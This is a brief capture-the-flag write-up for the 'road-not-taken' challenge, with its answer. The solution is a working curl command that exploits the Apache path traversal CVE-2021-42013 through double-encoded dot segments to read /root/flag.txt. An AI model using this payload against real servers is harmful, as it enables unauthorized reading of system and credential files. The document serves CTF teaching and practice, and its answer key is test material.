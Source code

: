 # road-not-taken

## Challenge Text
* You've reached a fork in the road! Choose the right path to find your way to the flag.  Start here: https://jerseyctf-road-not-taken.chals.io/  

## Hint
* Recent CVEs may help you find your way.

## Solution
* curl -v --path-as-is https://jerseyctf-road-not-taken.chals.io/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/root/flag.txt
 
* Flag: `jctf{CVE-2021-42013}`

## Credit
* Developed by [Rob Bruder](https://github.com/njccicrob)
